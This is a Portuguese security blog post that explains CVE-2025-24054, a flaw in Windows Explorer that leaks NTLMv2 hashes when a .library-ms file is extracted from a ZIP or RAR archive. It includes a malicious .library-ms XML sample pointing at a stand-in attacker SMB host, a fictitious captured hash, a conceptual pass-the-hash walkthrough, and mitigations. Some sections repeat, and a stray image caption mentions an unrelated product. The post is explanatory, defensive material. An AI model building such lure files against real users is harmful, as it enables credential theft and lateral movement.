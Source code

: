 ```yaml
---
title: "Alerta de Segurança: Vazamento de Hash NTLM (CVE-2025-24054) ao Extrair Arquivos ZIP/RAR"
date: 2025-05-31T15:00:00-03:00 # << AJUSTE ESTA DATA E HORA PARA A PUBLICAÇÃO
description: "Entenda a vulnerabilidade CVE-2025-24054 que permite o vazamento de hashes NTLMv2 através de arquivos .library-ms maliciosos em arquivos ZIP ou RAR e como a Microsoft a corrigiu."
keywords: ["CVE-2025-24054", "NTLM Hash Leak", "Windows Explorer", "Vulnerabilidade", "Segurança Windows", "ZIP", "RAR", ".library-ms", "Patch Tuesday"]
author: "Hugo Robot" # Seu nome de autor
images: ["images/SemTitulo-1.png"]
draft: false

tags: ["CVE", "Segurança Windows", "Vulnerabilidade", "NTLM", "Microsoft"]
categories: ["Segurança Cibernética", "Alertas"]
---
```


Recentemente, uma vulnerabilidade interessante (originalmente referenciada como CVE-2025-24071, agora atualizada para **CVE-2025-24054**) foi detalhada, expondo como hashes NTLMv2 de usuários do Windows podem ser capturados por invasores através de um método engenhoso envolvendo arquivos compactados ZIP ou RAR.

Vamos entender como essa falha funciona e o que foi feito a respeito.

## O Que é a Vulnerabilidade CVE-2025-24054?

A falha reside na maneira como o **Windows Explorer** lida com arquivos de Biblioteca do Windows (`.library-ms`) quando eles são extraídos de um arquivo compactado (como `.zip` ou `.rar`).



Um invasor pode criar um arquivo `.library-ms` malicioso que contém um caminho apontando para um servidor SMB (Server Message Block) sob seu controle. Quando um usuário desavisado baixa um arquivo ZIP/RAR contendo este arquivo `.library-ms` e o extrai, o Windows Explorer tenta automaticamente processar e indexar o conteúdo da "biblioteca".

Ao encontrar o caminho SMB malicioso dentro do arquivo `.library-ms`, o Windows Explorer tenta se conectar a esse servidor. Durante essa tentativa de conexão, ocorre um handshake de autenticação NTLM (NT LAN Manager), e o **hash NTLMv2** do usuário é enviado para o servidor SMB do invasor.

## Impacto do Vazamento de Hash NTLMv2

Com o hash NTLMv2 da vítima em mãos, um invasor pode:

* **Tentar ataques de "Pass-the-Hash":** Em ambientes de rede corporativa, esses hashes podem ser usados para se autenticar em outros sistemas como se fosse o usuário legítimo, sem a necessidade de conhecer a senha original.
* **Tentar Quebra de Senha Offline:** O hash NTLMv2 pode ser submetido a ferramentas de cracking para tentar descobrir a senha de texto puro do usuário. A força da senha e a capacidade computacional do invasor influenciam o sucesso dessa tentativa.

## Sistemas Afetados

A vulnerabilidade afeta o **Windows Explorer** em versões do Windows que processam automaticamente arquivos `.library-ms`.

## Correção e Mitigação

A boa notícia é que a **Microsoft já corrigiu esta vulnerabilidade**. A correção foi disponibilizada no "Patch Tuesday" de Março. É crucial que os usuários do Windows mantenham seus sistemas atualizados com os últimos patches de segurança da Microsoft para se protegerem contra esta e outras ameaças.

Portanto, a principal recomendação é:
* **Aplique todas as atualizações de segurança do Windows o mais rápido possível.**

Manter-se informado sobre essas vulnerabilidades e aplicar as correções diligentemente são passos fundamentais para a segurança digital.

# Como o Ataque Funciona: O Apontamento SMB Malicioso
- 1. **Criação do Arquivo Malicioso**: Um invasor cria um arquivo `library-ms` especialmente modificado. Dentro deste arquivo XML, ele especifica um caminho para um local de rede que aponta para um servidor SMB sob seu controle.

    - **O que é SMB (Server Message Block)**? De forma rápida, SMB é um protocolo de rede usado principalmente pelo Windows para compartilhamento de arquivos, impressoras e outros recursos em uma rede. Quando você acessa uma pasta compartilhada como `\\NOMEDOSERVIDOR\pasta`, você está usando SMB.
- 2. **Exemplo de Conteúdo Malicioso no `.library-ms`**:
O arquivo `library-ms` pode conter algo como:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="[http://schemas.microsoft.com/windows/2009/library](http://schemas.microsoft.com/windows/2009/library)">
    <name>Fotos Inocentes</name>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>file://///[servidor-do-atacante.com/recurso_malicioso](https://servidor-do-atacante.com/recurso_malicioso)</url>
                {{/* Outra variação poderia ser: <url>\\servidor-do-atacante.com\recurso_malicioso</url> */}}
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```
A parte crucial é `<url>file://///servidor-do-atacante.com/recurso_malicioso</url>`, que instrui o Explorer a tentar acessar um compartilhamento SMB no servidor do atacante.

- 3. **Entrega e Extração**: O invasor comprime este arquivo .library-ms (e talvez outros arquivos isca) em um arquivo `.zip` ou `.rar` e o envia para a vítima (ex: via e-mail, download de site comprometido).
---
- 4. **A Mágica (Ruim) Acontece**: Quando o usuário desavisado baixa e extrai o conteúdo do arquivo ZIP/RAR, o Windows Explorer, ao processar o arquivo `.library-ms` recém-extraído (para indexação, pré-visualização, etc.), tenta se conectar automaticamente ao caminho SMB especificado.

- 5. **Vazamento do Hash**: Durante essa tentativa de conexão automática ao servidor SMB do atacante, o Windows envia as credenciais do usuário na forma de um handshake de autenticação NTLM. O servidor do atacante, que está esperando por isso, captura o **hash NTLMv2** do usuário.

**Usuário Fictício**: `MEUDOMINIO\UsuarioAlvo`
**Hash NTLMv2 Capturado (Exemplo Fictício)**: `UsuarioAlvo::MEUDOMINIO:1122334455667788:AABBCCDDEEFF00112233445566778899:0101000000000000009a8b7c6d5e4f3a0000000002000000...`

**Impacto do Vazamento de Hash NTLMv2**
Com o hash NTLMv2 da vítima em mãos, um invasor tem algumas opções perigosas:

- Tentar Quebra de Senha Offline: O hash NTLMv2 pode ser submetido a ferramentas de cracking (como Hashcat ou John the Ripper) em conjunto com listas de palavras (wordlists) e regras de mutação para tentar descobrir a senha de texto puro do usuário. A complexidade da senha original e a capacidade computacional do invasor determinam a chance de sucesso.

- **Ataques de "Pass-the-Hash" (PtH)**: Este é frequentemente o impacto mais direto e perigoso em ambientes corporativos.

**O que é um Ataque "Pass-the-Hash"**? Em um ataque PtH, o invasor não precisa conhecer a senha em texto puro. Em vez disso, ele usa o próprio hash NTLM roubado para se autenticar em outros sistemas e serviços na rede que aceitam autenticação NTLM.
- Exemplo Conceitual de Pass-the-Hash:
- 1. O atacante capturou o hash NTLMv2 de MEUDOMINIO\UsuarioAlvo.
- 2. O UsuarioAlvo também é administrador de um servidor importante na rede chamado "SERVIDOR_ALVO".
- 3. O atacante usa uma ferramenta (como PsExec do conjunto Sysinternals, ou ferramentas do framework Impacket ou Mimikatz) e fornece o hash NTLMv2 de UsuarioAlvo em vez de uma senha.
- 4. Se o "SERVIDOR_ALVO" aceitar autenticação NTLM e o hash for válido para UsuarioAlvo, o atacante ganha acesso ao "SERVIDOR_ALVO" com os privilégios de UsuarioAlvo (neste caso, administrador), sem nunca ter descoberto a senha real.

**Sistemas Afetados**

A vulnerabilidade afeta o Windows Explorer em versões do Windows que processam automaticamente arquivos `.library-ms` e ainda utilizam ou permitem fallback para autenticação NTLM em conexões SMB.

**Correção e Mitigação**

A boa notícia é que a Microsoft já corrigiu esta vulnerabilidade específica (CVE-2025-24054). A correção foi disponibilizada através das atualizações de segurança, provavelmente no "Patch Tuesday" de Março (conforme mencionado no artigo original).

*Recomendações Principais*:

- 1. *Mantenha o Windows Atualizado*: Aplique todas as atualizações de segurança da Microsoft o mais rápido possível. Esta é a defesa primária contra esta e muitas outras vulnerabilidades.
- 2. *Cautela com Arquivos Compactados*: Tenha cuidado ao baixar e extrair arquivos .zip ou .rar de fontes não confiáveis ou inesperadas.
- 3. *Configurações de Segurança de Rede (Para Ambientes Corporativos)*:
 - Considere desabilitar o NTLM e forçar o uso de Kerberos sempre que possível.
Implemente segmentação de rede e firewalls para restringir conexões SMB desnecessárias, especialmente para fora da rede local.
 - Monitore tentativas de autenticação NTLM suspeitas.

**Conclusão e Próximos Passos**

Vulnerabilidades como a CVE-2025-24054 destacam a importância de mecanismos de defesa em camadas e a necessidade de manter os sistemas atualizados. Embora o patch da Microsoft resolva este vetor específico, a compreensão de como os hashes NTLM podem ser explorados é crucial para a segurança em ambientes Windows.

*Ficou curioso para ver como um ataque de captura de hash NTLM funciona na prática e como um atacante poderia usar ferramentas como as do Kali Linux para explorar uma vulnerabilidade similar em um ambiente controlado?*

Não perca nosso próximo post: **"Explorando na Prática: Capturando Hashes NTLM com Kali Linux e VMs"**! Vamos montar um laboratório e demonstrar passo a passo. Fique ligado!

<img src="/images/SemTitulo-1.png" alt="Interface amigável do LM Studio" style="max-width: 80%; height: auto; display: block; margin: 0 auto;">
---